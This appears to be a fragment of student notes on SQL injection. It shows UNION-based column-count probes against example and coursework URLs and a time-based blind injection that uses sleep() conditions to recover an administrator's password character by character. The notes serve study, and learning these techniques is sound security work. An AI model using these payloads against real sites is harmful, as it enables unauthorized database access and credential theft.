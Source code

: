 <img src="img\7\1.png" alt="1" style="zoom:80%;" />

##### How to find columns

```
http://fakesite.com/report.php?id=23 union select 1--+
http://fakesite.com/report.php?id=23 union select 1,2,3,4--+
http://fakesite.com/report.php?id=23 union select 1,2,3,4,5--+

https://assignment-dusty-rose.unimelb.life/search.php?search=ball%27union%20select%20null,%20null,%20null,%20null,%20null,%20null
```



### Blind SQL Injection

* Completely blind
* Only Boolean output received
* Using sleeps and ifs

#### Extracting Password

```
“SELECT TrackingId FROM TrackedUsers WHERE TrackingId = ‘” + request.args[‘id’] + ”’”

123’ union select 1 from users where username = ‘administrator’ and if(substring(password, 1, 1) = ‘a’, sleep(3), sleep(0)) --

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = ‘123’ 
union select 1 from users where username = ‘administrator’ 
and if(substring(password, 1, 1) = ‘a’, sleep(3), sleep(0)) -- ’

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = ‘123’ 
union select 1 from users where username = ‘administrator’ 
and if(substring(password, 1, 1) = ‘b’, sleep(3), sleep(0)) -- ’

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = ‘123’ 
union select 1 from users where username = ‘administrator’ 
and if(substring(password, 1, 2) = ‘pa’, sleep(3), sleep(0)) -- ’
```
